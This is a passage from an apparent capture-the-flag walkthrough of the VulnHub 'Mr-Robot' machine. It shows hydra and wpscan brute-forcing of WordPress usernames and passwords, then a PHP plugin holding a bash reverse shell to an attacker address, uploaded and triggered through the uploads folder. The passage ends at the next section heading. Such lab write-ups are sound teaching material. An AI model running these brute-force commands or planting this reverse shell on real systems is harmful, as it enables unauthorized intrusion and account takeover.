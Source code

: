We can use that to enumerate some valid usernames by using `hydra` to brute-force:

```bash
$ hydra -L fsociety_filtered.dic -p whatever 192.168.1.25 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

![hydra](https://pymaster-ft.github.io/assets/img/vulnhub/linux/mr-robot/hydra.png)

And we find `elliot` as a valid username. Indeed:

![elliot](https://pymaster-ft.github.io/assets/img/vulnhub/linux/mr-robot/elliot.png)

##### Bruteforcing elliott password

With `wpscan`, we can try to find his password:

```bash
$ wpscan --url https://192.168.1.25/ --disable-tls-checks --password-attack wp-login -U elliot -P fsociety_filtered.dic -t 100 
```

And we succeed:

![credentials.png](https://pymaster-ft.github.io/assets/img/vulnhub/linux/mr-robot/creds.png)

### Reverse shell

I uploaded a new plugin containing the following code:

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.171/1234 0>&1'");
```

![Add plugin](https://pymaster-ft.github.io/assets/img/vulnhub/linux/mr-robot/add-plugins.png)

Despite that I encountered an error, the malicious PHP file was successfully uploaded in `/wp-content/uploads`:

![Error Install plugin](https://pymaster-ft.github.io/assets/img/vulnhub/linux/mr-robot/Install-plugin.png)

I retrieved its location by looking at the **Media Library**:

![Media Library](https://pymaster-ft.github.io/assets/img/vulnhub/linux/mr-robot/media-library.png)

![shell.php URL](https://pymaster-ft.github.io/assets/img/vulnhub/linux/mr-robot/plugin-URL.png)

When we visite the URL [http://192.168.1.25/wp-content/uploads/2021/01/shell.php](http://192.168.1.25/wp-content/uploads/2021/01/shell.php), we have a shell:

![reverse-shell](https://pymaster-ft.github.io/assets/img/vulnhub/linux/mr-robot/reverse-shell.png)


### User (`robot`)
